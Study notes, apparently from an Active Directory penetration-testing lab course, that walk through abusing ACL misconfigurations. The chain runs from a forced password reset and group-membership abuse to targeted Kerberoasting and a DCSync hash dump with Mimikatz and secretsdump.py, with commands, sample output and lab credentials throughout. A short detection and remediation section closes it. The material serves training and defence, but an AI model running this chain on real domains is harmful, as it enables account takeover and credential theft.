

# ACL Abuse in Active Directory

## Table of Contents
- [ACL Abuse Primer](#acl-abuse-primer)
- [ACL Enumeration](#acl-enumeration)
- [ACL Abuse Tactics](#acl-abuse-tactics)
- [DCSync](#dcsync)

---

## ACL Abuse Primer

- **ACL (Access Control List):** List of permissions on an AD object.
- **ACE (Access Control Entry):** Single permission entry in an ACL (who, what rights).
- **DACL:** Who can access/modify the object.
- **SACL:** What access attempts are audited.

**Why attackers care:**
- Misconfigured ACLs = stealthy privilege escalation, lateral movement, persistence.
- Abusable rights often go undetected by standard vulnerability scans.

**Key abusable rights:**
| Right/ACE         | What It Lets You Do                        | Example Tool/Command           |
|-------------------|--------------------------------------------|-------------------------------|
| GenericAll        | Full control over object                   | Set-DomainUserPassword        |
| GenericWrite      | Write to most attributes                   | Set-DomainObject              |
| WriteOwner        | Change object owner                        | Set-DomainObjectOwner         |
| WriteDACL         | Change permissions (add more rights)       | Add-DomainObjectACL           |
| ForceChangePassword | Reset user password (no old pwd needed)  | Set-DomainUserPassword        |
| AddMember         | Add users to groups                        | Add-DomainGroupMember         |
| AddSelf           | Add self to group (if allowed)             | Add-DomainGroupMember         |
| AllExtendedRights | Special/rare rights (reset pwd, etc.)      | Set-DomainUserPassword        |

**Typical attack flow:**
1. Enumerate ACLs (BloodHound, PowerView, ADExplorer)
2. Find abusable ACEs (see table above)
3. Exploit (abuse rights)
4. Escalate/move laterally

---

## ACL Enumeration

### PowerView (Targeted Enumeration)
- Get SID of your user:
  ```powershell
  $sid = ConvertTo-Sid wley
  ```
- Find objects your user can control:
  ```powershell
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  ```
  - Look for rights like `User-Force-Change-Password`, `GenericWrite`, `GenericAll`, `DS-Replication-Get-Changes`.
- Map GUIDs to readable names if needed:
  ```powershell
  $guid = "00299570-246d-11d0-a768-00aa006e0529"
  Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | ?{$_.rightsGuid -eq $guid} | fl Name,DisplayName
  ```
- Recursively enumerate: If you control user A, check what A controls, and so on.

### PowerShell (No PowerView)
- List all users:
  ```powershell
  Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
  ```
- For each user, check ACLs:
  ```powershell
  foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {
    get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}
  }
  ```

### BloodHound (Graphical, Fastest for Paths)
- Collect data with SharpHound, upload to BloodHound.
- Set your user as the start node, check "Outbound Control Rights" and "Transitive Object Control".
- Use pre-built queries: "Shortest Paths to High Value Targets", "Users with DCSync Rights", etc.
- Edge types to know: `ForceChangePassword`, `AddMember`, `GenericWrite`, `GenericAll`, `GetChangesAll`/`GetChanges`.

### Troubleshooting & OpSec
- Use `-Verbose` for feedback.
- Targeted enumeration is stealthier than querying everything.
- Monitor for Event ID 5136 (object modified), group membership changes, SPN modifications.

---

## ACL Abuse Tactics

Abusing ACLs in Active Directory is a powerful way to escalate privileges, move laterally, and ultimately compromise a domain. Below is a practical, stepwise example based on a real-world attack chain, with explanations and command outputs for each step. This is the kind of chain you might see in Hack The Box, CTFs, or real internal assessments.

### Scenario Recap
- **Initial foothold:** You control the user `wley` (NTLMv2 hash captured with Responder, cracked with Hashcat).
- **Goal:** Full domain compromise by obtaining DCSync rights (control of `adunn`).

### Step 1: Force Password Reset (wley → damundsen)
**Why:** If you have ForceChangePassword rights, you can reset another user's password without knowing the old one.
```powershell
$SecPassword = ConvertTo-SecureString 'wley_password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```
- **Result:** You now control `damundsen`.

### Step 2: Group Membership Abuse (damundsen → Help Desk Level 1)
**Why:** If you have GenericWrite on a group, you can add users to it, inheriting all its rights (including nested groups).
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
**Output:**
```
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
- **Result:** `damundsen` is now in Help Desk Level 1 group.

### Step 3: Nested Group Escalation (Help Desk Level 1 → Information Technology)
**Why:** Group nesting means rights are inherited. If Help Desk Level 1 is a member of Information Technology, so is `damundsen`.
- **Check group nesting:**
```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```
- **Result:** You inherit all rights of Information Technology group.

### Step 4: Targeted Kerberoasting (adunn)
**Why:** If you have GenericAll on a user, you can set a fake SPN, Kerberoast, and crack their password offline.
- **Create a fake SPN:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```
- **Kerberoast with Rubeus:**
```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
**Output:**
```
[*] SamAccountName         : adunn
[*] ServicePrincipalName   : notahacker/LEGIT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL$...
```
- **Crack the hash offline with Hashcat:**
```bash
hashcat -m 13100 <hashfile> <wordlist>
```
- **Result:** You now have the cleartext password for `adunn` (DCSync rights).

### Step 5: Cleanup
**Why:** Always revert changes in labs/assessments to avoid detection and maintain integrity.
- **Remove fake SPN:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
- **Remove user from group:**
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
- **Reset damundsen password (if needed).**

### Detection & Remediation
- **Monitor for:**
  - Event ID 5136 (object modified)
  - Group membership changes
  - SPN modifications
- **Remediate:**
  - Audit and remove dangerous ACLs
  - Monitor high-value group memberships
  - Train staff to use BloodHound for regular reviews

---
**Pro Tips:**
- Always use `-Verbose` for feedback.
- Document every change for reporting.
- In real environments, get explicit approval before making changes.
- This chain is common in CTFs and real-world pentests—practice it in labs! 

---

## DCSync

### What is DCSync?
- **DCSync** is an attack technique that allows an attacker to simulate the behavior of a Domain Controller (DC) and request password data (NTLM hashes, Kerberos keys) from another DC via replication protocols.
- **Purpose:** Steal password hashes for any user, including domain admins, for full domain compromise.
- **Protocol Used:** Directory Replication Service Remote Protocol (MS-DRSR)
- **Key Privilege:** Abuse of the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights.

#### Visual: DCSync Attack Flow


---

### Required Rights for DCSync
- **Account must have at least:**
  - `Replicating Directory Changes` (DS-Replication-Get-Changes)
  - `Replicating Directory Changes All` (DS-Replication-Get-Changes-All)
- **Who has these by default?**
  - Domain Admins
  - Enterprise Admins
  - Domain Controllers
- **Other users/groups** may be delegated these rights (misconfiguration = risk).

---

### How to Check DCSync Rights

#### 1. Get User SID
```powershell
$sid = (Get-DomainUser -Identity adunn).objectsid
```

#### 2. Check ACLs on Domain Object
```powershell
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs |
  ? { $_.ObjectAceType -match 'Replication-Get' } |
  ? { $_.SecurityIdentifier -eq $sid } |
  select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType
```
- **Look for:**
  - `DS-Replication-Get-Changes`
  - `DS-Replication-Get-Changes-All`

#### Example Output
```
AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : ...-1164
ObjectAceType         : DS-Replication-Get-Changes
...
ObjectAceType         : DS-Replication-Get-Changes-All
```

---

### DCSync Attack: Step-by-Step

#### **A. From Linux (Impacket secretsdump.py)**
1. **Command:**
   ```bash
   secretsdump.py -outputfile <prefix> -just-dc DOMAIN/user@DC_IP
   # Example:
   secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
   ```
2. **What it does:**
   - Connects to DC as the user
   - Requests replication data
   - Dumps NTLM hashes, Kerberos keys, and (if present) cleartext passwords
3. **Files created:**
   - `<prefix>.ntds` (NTLM hashes)
   - `<prefix>.ntds.kerberos` (Kerberos keys)
   - `<prefix>.ntds.cleartext` (cleartext passwords, if reversible encryption enabled)

#### **B. From Windows (Mimikatz)**
1. **Run PowerShell as DCSync-privileged user:**
   ```cmd
   runas /netonly /user:DOMAIN\adunn powershell
   ```
2. **Launch Mimikatz:**
   ```powershell
   .\mimikatz.exe
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /domain:DOMAIN /user:DOMAIN\administrator
   ```
3. **What it does:**
   - Requests replication data for the specified user
   - Outputs NTLM hash and credential info

---

### Output Interpretation
- **NTLM Hashes:** Used for pass-the-hash, offline cracking, or lateral movement
- **Kerberos Keys:** Used for forging tickets (e.g., Golden Ticket attacks)
- **Cleartext Passwords:** Only present if reversible encryption is enabled

#### Example: secretsdump.py Output
```
domain\user:RID:LMHASH:NTHASH:::
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

#### Example: Mimikatz Output
```
SAM Username         : administrator
Hash NTLM: 88ad09182de639ccc6579eb0849751cf
```

---

### Reversible Encryption: What & Why
- **Definition:** If enabled, AD stores user passwords using reversible encryption (RC4), not just hashes.
- **Risk:** Tools can extract and decrypt these passwords directly.
- **How to find such accounts:**
  - PowerShell:
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```
  - PowerView:
    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
    ```
- **Output:**
  - `proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!`

---

### DCSync Attack Summary
- **1. Gain DCSync rights (via privilege escalation, misconfig, or delegation).**
- **2. Confirm rights on the domain object.**
- **3. Use secretsdump.py (Linux) or Mimikatz (Windows) to request replication data.**
- **4. Extract hashes/keys/cleartext passwords.**
- **5. Use credentials for further attacks (e.g., pass-the-hash, Golden Ticket, lateral movement).**

---

## Moving On
In the next section, we'll see ways to enumerate and exploit remote access rights (RDP, WinRM, SQL admin, etc.) that may be granted to a user you control. 
